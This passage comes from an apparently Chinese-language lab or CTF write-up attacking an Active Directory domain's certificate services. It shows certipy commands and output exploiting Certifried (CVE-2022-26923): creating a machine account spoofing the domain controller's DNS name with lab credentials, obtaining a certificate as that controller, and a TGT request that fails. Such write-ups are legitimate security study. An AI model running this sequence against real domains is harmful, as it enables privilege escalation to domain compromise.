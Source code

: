 ```shell
      ESC8                              : Web Enrollment is enabled and Request Disposition is set to Issue
Certificate Templates                   : [!] Could not find any certificate templates
```

只存在 ESC8, 虽然不是不能打, 但毕竟是 NTLM Relay 稍微有点麻烦

于是又去试了试看是否存在 Certifried (CVE-2022–26923)

```shell
$ proxychains certipy account create -user 'TEST2$' -pass 'P@ssw0rd' -dns XR-DC01.xiaorang.lab -dc-ip 172.22.15.13 -u lixiuying -p 'winniethepooh'
[proxychains] config file found: /usr/local/etc/proxychains.conf
[proxychains] preloading /usr/local/lib/libproxychains4.dylib
[proxychains] DLL init: proxychains-ng 4.16-git-13-g133e06b
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Creating new account:
    sAMAccountName                      : TEST2$
    unicodePwd                          : P@ssw0rd
    userAccountControl                  : 4096
    servicePrincipalName                : HOST/TEST2
                                          RestrictedKrbHost/TEST2
    dnsHostName                         : XR-DC01.xiaorang.lab
[*] Successfully created account 'TEST2$' with password 'P@ssw0rd
```

添加成功了, 那么继续按流程走下去

申请证书模版

```shell
$ proxychains certipy req -u 'TEST2$@xiaorang.lab' -p 'P@ssw0rd' -ca 'xiaorang-XR-CA-CA' -target 172.22.15.18 -template 'Machine'
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 7
[*] Got certificate with DNS Host Name 'XR-DC01.xiaorang.lab'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'xr-dc01.pfx'
```

在申请 TGT 的时候出现了问题

```shell
$ proxychains certipy auth -pfx xr-dc01.pfx -dc-ip 172.22.15.13
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Using principal: xr-dc01$@xiaorang.lab
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```
